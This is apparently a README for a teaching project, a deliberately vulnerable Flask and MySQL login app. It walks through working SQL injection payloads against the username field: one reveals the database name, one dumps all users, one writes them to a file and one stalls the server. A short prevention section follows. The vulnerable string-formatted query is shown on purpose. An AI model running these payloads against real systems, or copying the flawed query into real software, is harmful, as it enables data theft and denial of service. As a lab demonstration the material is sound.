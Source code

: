 # SQL Injection Projcet
## Overview
This project demonstrates the vulnerabilities of invalid usage of SQL parameters.
This is a simple login form written in flask with mysql database.
## Prerequisites
In order to run this code you'll need:
* python 3.8 installed.
* mysql database (you can use mysql docker image).
* (optional) postman installed, to inspect the responses.
## Getting started
First you'll need to run the mysql database:
### With docker
You can run mysql with the `Dockerfile` in this repo:
``` bash
docker build -t db .
docker run db
```
this will create a database named `bank`, a table called `account` and insert dummy data (users) into it.
### Run the backend
Before runnig the backend execute:
``` bash
python -m pip install -r requirements.txt
```
The backend is written with flask. In order to run the backend execute:
``` bash
export FLASK_APP=app.py
python -m flask run
```
## Execute injections
The vulnerability of this web app is in the username field:
``` SQL
"SELECT * FROM account WHERE userid='%s'" % user_id
```
### Get the database's name
Before executing the queries we need to determine the db name, we can do this using and error based injection:

In the username field enter:
``` SQL
test'; SELECT a(); #
```
1. The first part is the original query:
    ``` SQL
    SELECT * FROM account WHERE userid='test'
    ```
2. The second part is the injection, this will cause an error.
3. Third part will nullify the rest of the origial quary.
The result of the above quary will be:
```
FUNCTION bank.a does not exist
```
We now know that the database the users are kept in is called `bank`
### Get all users
In order to get all the users in the `account` table enter:
``` SQL
test' or 1=1; #
```
Again, the second part is the injection cause it's always true. The result will be:
``` 
[('Yakuza', 'aa', 'aa', 54725, 'yakuzarockz@japan.com', 9843059),
 ('Bogambo Vila', 'bagambo', 'bogambo', 24350, 'bogambo@paki.com', 4643614),
 ('Heth Ledger', 'heth1', 'heth1', 20000, 'heth@gotham.com', 6434614)]
```
### Write users list to file
``` SQL
test' or 1=1 INTO dumpfile '/tmp/users'; #
```
This will write the users list to a file.

### Denial of service
We can prevent the application from processing requests:
``` sql
test'; SELECT IF(SUBSTRING(version(),1,1)=8,SLEEP(50),null); #
```
If the database's major version is 8 the database wil sleep for 50 seconds.
This is called blind sql injection because we dont need to know the internal database structure.

## Protect againts SQL injection
In order to protect from sql injection the developer need to pay close attentions when using parameters in an sql query.
Some precations that can be applied:

1. Allow the execution of only one query.
2. Always user sql parameters as string

Here I'm using `mysql-connector-python` package, it will only allow the execution of one query unless stated otherwise in the code.
Using `SQLAlchemy` pypi will take care of most of the sql vulnerabilities.